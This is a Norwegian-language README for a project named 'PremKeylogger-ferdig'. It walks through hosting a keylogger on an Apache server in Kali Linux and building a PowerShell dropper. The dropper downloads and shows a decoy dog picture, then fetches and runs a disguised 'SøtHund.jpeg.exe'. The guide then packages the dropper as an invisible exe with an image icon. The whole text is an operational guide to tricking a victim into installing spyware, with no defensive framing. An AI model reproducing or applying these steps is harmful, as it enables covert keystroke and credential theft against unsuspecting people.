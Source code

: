 # PremKeylogger-ferdig

Verktøy:
-Hyper-V manager
-Winscp
-Kali linux
-bat to exe converter
-2 bilder
-1 ICO (ikon)

------------------------------------------------------------------------------------------------------------------------------------------------------------|

Koden ble skrevet i Visual studio, hvordan du implenterer koden i et "bilde" er gjort i Kali Linux.

------------------------------------------------------------------------------------------------------------------------------------------------------------|

For å få "injecte" keyloggeren inn i et "bilde" må du lage apache2 web server for å lagre din keylogger inni den.

------------------------------------------------------------------------------------------------------------------------------------------------------------|

For å gjøre det trenger du Kali linux. Det er for å sette opp en Apache web server. Du må også overføre din keylogger
til din Kali linux. Du trenger "Winscp" for å gjøre dette.

------------------------------------------------------------------------------------------------------------------------------------------------------------|

For å sjekke at din Apache2 web server er oppe kan du skrive inn din kali linux sin ip adresse, kommando for å få ip adresse: "ip a".
Når du har Ip adressen skriver du inn i google chrome "http://DIN IP ADRESSE"

------------------------------------------------------------------------------------------------------------------------------------------------------------|

For å legge keylogger filen inn på din apache2 web server går du inn på kali linux:
-> "Open folder", øverst til venstre -> finn keyloggeren -> høyreklikk -> cut -> file system - Var -> www -> html -> høyreklikk -> paste.

------------------------------------------------------------------------------------------------------------------------------------------------------------|

Finn et passende bilde som har en URl som slutter på .png, .jpg eller .jpeg som for eksempel:
https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg
Så trenger vi URL til keyloggeren, du finner dette ved å gå inn på din Apache2 webs server, høyreklikke på filen -> Copy

------------------------------------------------------------------------------------------------------------------------------------------------------------|
Deretter gå inn på powershell på din vanlige pc. NB! gjør dette på notepad først. 
Skriv inn:
cd %TEMP%
Invoke-webRequest 'bilde URL' -OutFile passende navn.jpg
passende navn.png
Invoke-webRequest 'fil IRL' -OutFIle passende navn.exe (eller .bat)

------------------------------------------------------------------------------------------------------------------------------------------------------------|

Det kan se sånn ut:

cd %TEMP%
Invoke-webRequest 'https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg' -OutFile By.jpg
By.jpg
Invoke-webRequest 'http://192.168.50.221/S%c3%b8tHund.jpeg.exe' -OutFile SøtHund.jpeg.exe
SutHund.jpeg.exe

------------------------------------------------------------------------------------------------------------------------------------------------------------|

Lagre notepad filen der du kan finne den. Filtypen skal være "all files". Gi filen et passende navn som slutter på .exe. feks "SøtHunnd.exe".

------------------------------------------------------------------------------------------------------------------------------------------------------------|

Copy paste teksten på powershell, start den. Nå har vi en fil som gjør at hvis brukeren trykker på filen starter den programmet, ved at den installerer
et bilde, og hviser den. For å gi den et ikon trenger vi bat to exe converter. 
Dra filen inn på bat to exe converter -> Icon -> trykk på de 3 prikkene -> finn Ico filen -> exe format 32 bit | Windows (Invisible) -> Convert ->
navngi den et passende navn -> save


